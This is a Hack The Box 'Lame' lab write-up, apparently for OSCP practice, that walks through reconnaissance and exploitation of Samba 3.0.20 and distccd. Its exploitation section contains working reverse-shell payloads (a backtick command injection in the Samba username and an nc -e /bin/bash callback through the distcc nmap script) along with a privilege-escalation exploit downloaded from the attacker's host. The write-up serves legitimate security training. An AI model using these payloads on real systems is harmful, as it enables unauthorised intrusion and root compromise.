Lame

 -------------------------------------
# Overview

The machine I'm going to attempt to exploit is a linux machine called "Lame". This is one of the OSCP like boxes that have been listed by @TJ_Null on Twitter. Since I'm preparing for my OSCP I'm going to exploit this box without metasploit. At the end of the write up I will have a section on exploiting it with metasploit.

# Reconnaissance 

For this machine we are given the IP addess 10.10.10.3. I'm going to start by running a few nmap scan to get some more information about the target and see if I can find some potential entry point

### ****Scanning****

- **Nmap Scan**
	- Command 
	`sudo nmap -sC -sV -T4 -O -v -oA lame 10.10.10.3`
		- `-sC`: run default nmap scripts
		- `-T4`: Set timing template (higher is faster)
		- `-O`: Detect OS
		- `sV`: detect service version
		- `-v`: Verbose
		- `-oA`: Output all files formats to name "lame"
	

Running the initial nmap scan showed 4 open ports on the target machine

- **Port 21**: Running File Transfer Protocol (FTP). The specific version is vsFTPd 2.3.4. Also noted that anonymous login is allowed.
- **Port 22**: Running SSH. The specific version is OpenSSH version 4.7p1.
- **Port 139 and 445**: Running Samba smbd 3.X - 4.X. Didn't get a specific version.

Before I start diving deeper into these ports, I'm going to run another scan to check for all ports just to ensure that I'm not missing any other services.

- **Deep Scan**
	- Command
	`nmap -sC -sV -p- -T4 -O -oA lame_deep 10.10.10.3`
	
Here are the results of the scan



There is a new port that didn't show up in the initial nmap scan. This is due to port 3632 not being a common port.

- **Port 3632**: Running distccd v1 4.2.4. A service that I am not familiar with.

Now to be thorough I'm going to run a a UDP scan to see if anything is open.

- **UDP Scan**
	- Command
	`nmap -sU -p- -T4 -O -oA lame_UDP 10.10.10.3`
	
The scan resulted in all ports being closed.



In conclusion, we have four potential entry points into this machine.

--------------------------------------------
--------------------------------------------
# Enumeration

Now let's dive deeper into these services and see if we can find any vulnerabilities or misconfigurations

## **Port 21 vsFTPd 2.3.4**

Now let use the best "hacking" tool that exists... Google. Google shows us that it is in fact a vulnerable verison and is vulnerable to remote code excution. 

- ***Vulnerabily Explanation***
To exploit this vulnerability we need to trigger the malicious function `vsf_sysutil_extra();` function by sending a sequence of specific bytes. If the execution is successful it should open a backdoor on port 6200 of the vulnerable system.

- ***nmap script scan***
To verify that it is vulnerable to this attack lets use an nmap script 



After running the script, the ouput shows up that this is not vulnerable to the exploit.



## **Port 22 OpenSSH v4.7p1**

Taking a quick look at Google didn't list any notable results results. 

Looking at the nmap scripts we have a few options. We could potentially bruteforce SSH. However, we could get locked out or it could take a long time and list no results. I'll keep this as a last resort 



## **Port 139 and 445 Samba smbd 3.X - 4.X**

This is the only service that we didn't get a specific version for. However, these ports are commonly misconfigured and/or vulnerable. Lets take a look.

We know that it's running an SMB server, I'll use SMB client to get the specific version.

- **SMB Client Fix**
	- I was getiing the error below while trying to connect to the server using `smbclient`

	- Running a quick Google search I was able to find a solution. I had to add the line `client min protocol = NT1` to the `etc/samba/smb.conf` file under the global section (see screenshot below)


Now that we have `smbclient` running again let's try connecting.

`smbclient -L 10.10.10.3`

- `-L`: lists what services are available on a server

We succesfully connected and now have a specific version: **Samba 3.0.20-Debian**



Now before we go any further let's see what permissions we have on the share drives.

`sudo ./smbmap.py -H 10.10.10.3 `

- `-H`: IP of the host



As you can see we have READ and WRITE access to the tmp folder.

Now that we have the smb version, let search for it on Google. I found a ton of vulnerabilitie and we could esially expoit this with metasploit. However, I would like to exploit this without using metasploit as I'm preparing for the OSCP. Don't worry though I will show the metasploit exploitation as well.

I found CVE-2007–2447 which I  can exploit without using metasploit and get root access. By looking at the metasploit script we can see the paylad is actually very simple. All we need to do is replace the *payload.encoded" with out payload.

``username = "/=`nohup " + payload.encoded + "`"``

The payload exploits the username field as the fild allowed you to enter metacharacters so that we can inject our payload. Before exploiting this lets check the last service.

*note: had to download smbmap directly from github as the lastest debian package was not working* 

## **Port 3632 distccd v1 4.2.4**

Running a quick Google search on this version shows us that it is vulnerable. There is even and nmap scipt for it, so let's run that.

`nmap -p 3632 --script distcc-cve2004-2687 10.10.10.3`

Looking at the results of the scan show us that it is vulnerable.



We're going to try and exploit both vulnerabilities that we found

----------------------------------------------------------------------------------------------------------------

# Exploitation 

## Samba

Lets open up a listener on our host machine.

`nc -lvnp 4444`

Now I'm going to login to the smb client

`smbclient //10.10.10.3/tmp`



Now let run our exploit.

``logon "/=`nohup nc -nv 10.10.14.14 4444 -e /bin/bash`"``

Perfect we got our reverse shell and we're root, No priviledge escalation needed.



## distccd v1 4.2.4

Now let try our potential second point of entry. We can use the nmap script to exploit this vulnerbaility as well, since we know that it is vulnerable to CVE 2004–2687.

Lets set up our listener

`nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.14 4444 -e /bin/bash'"`

We got our reverse shell, however we are not root so we will need to do some priviledge escalation.



Let find our linux version out. 



I tried a few priviledge escalations from exploitdb with no luck. After digging around Google for a bit I was able to find an priviledge escalation that might work.

First step is to set up a server

`python -m SimpleHTTPServer 8090`

Now on the target machine i'll download the exploit from exploitdb

`wget http://10.10.14.14:8090/8572.c`

Since it's a C file we need to compile it using gcc.

`gcc 8572.c -o 8572`

Let look at the usage before we execute the file.



There's ac ouple things that we will need to do to get this to work.

- find the PID id the udevd netlink
- Put a paylod in the /tmp forder and it will run as root.

Let's find the PID of the udevd using the command below:

`ps -aux | grep devd`

Here we find our PID.



Now lets create a quick srcipt that will give us a reverse shell when it's ran in the /tmp folder.



Now let open up a listener on our machine.

After running this eploit several times with different payloads I was not able to get the reverse shell. For some reason the exploit was not running my run file at all. Looked up some solutions after trying for a while and was still not able to get the priviledge escalation. Could be the machine acting up. will try again in the future.

*Update: After reseting the machine I was able to get the root

-----------------------------------------------
## Metasploit Exploitation

After stating up metasploit I searched for samba vulnerabilities. A few results were listed as you can see below 



I decided to use the exploit listed below first as it is listed as excelent

`exploit/multi/samba/usermap_script`

	

- **Metasploit**
	1. `use 4`
	2. `show OPTIONS`
	
	
	
	3. `set RHOST 10.10.10.3`
	4. `set LHOST tun0` (OVPN Interface)
	5. `exploit`

Now we have the reverse shell using the `cmd/unix/reverse_netcat` payload.



--------------------------------------------------------

## Getting the Flag

- User Flag
	- `cd /`
	- `cd home`
	- `cd makis`
	- `cat user.txt`



- Root Flag
	- `cd /`
	- `cd root`
	- `cat root.txt`



